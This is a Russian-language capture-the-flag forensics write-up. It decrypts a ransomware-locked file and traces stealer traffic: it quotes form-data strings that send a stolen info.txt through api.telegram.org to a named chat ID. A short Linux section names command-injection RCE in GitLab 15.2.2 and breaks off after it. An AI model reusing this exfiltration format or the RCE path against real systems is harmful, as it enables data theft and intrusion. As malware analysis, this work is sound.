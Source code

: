 ## Каково содержимое расшифрованного файла pass.txt на рабочем столе?

Строка с `sugoma` в действительности является перевернутым ключом. В таком случаем файл `pass.txt.ransom` на рабочем столе расшифровывается и мы получаем пароль пользователя:

![https://i.imgur.com/Xfng6cI.png](https://i.imgur.com/Xfng6cI.png)

## Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint?

При анализе вредоноса с использованием динамического анализа (VirusTotal, Triage), а также прогнав его через дебаггер, замечаем, что ВПО делает запросы к `api.telegram.org`

В частности, можно вытащить следующие строчки:

```jsx
"Content-Type: multipart/form-data; boundary=$$OkRp7n8iB0bFCrsyoCQaQaJY2wM48VIh$$"
"--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"chat_id\"\r\n\r\n6591405725\r\n--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"caption\"\r\n\r\n{ab942673-d5a2-11ee-b27c-806e6f6e6963}\r\n--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"document\"; filename=\"info.txt\"\r\nContent-Type: text/plain\r\n\r\n"
"--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"chat_id\"\r\n\r\n6591405725\r\n--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"caption\"\r\n\r\n{ab942673-d5a2-11ee-b27c-806e6f6e6963}\r\n--$$QH43mDbeu3sCCoI0MLnD6AweAdJQwN5E$$\r\nContent-Disposition: form-data; name=\"document\"; filename=\"info.txt\"\r\nContent-Type: text/plain\r\n\r\nVAuAZMIKCCVmql6Q9tnmfdc0rcpaV3fH8UTr1gaQC6gATsRHeTDSbibm1mDo7OlDsKptwhOfad1iy5DLHiGShcki1T7m5w2gPlkZw0/Tm"
```

Из спецификации API Telegram для ботов понимаем, что это - запрос на отправку сообщения пользователю с ID `6591405725`. Также, ВПО подтягивает токен для бота, но нам не удалось его достать.




# Linux Forensics

## Какой сервис на данном сервере уязвим? Какая версия?

GitLab, 15.2.2.

## Какой тип уязвимости использовал злоумышленник?

Данная версия GitLab подвержена уязвимости CWE-74 (из отчёта GitLab: `“Improper neutralization of special elements used in a command (‘command injection’) in GitLab”`), что фактически предоставляет RCE от имени пользователя `git` с шеллом `/bin/sh`.

## Какие ошибки были допущены при конфигурации сервера?
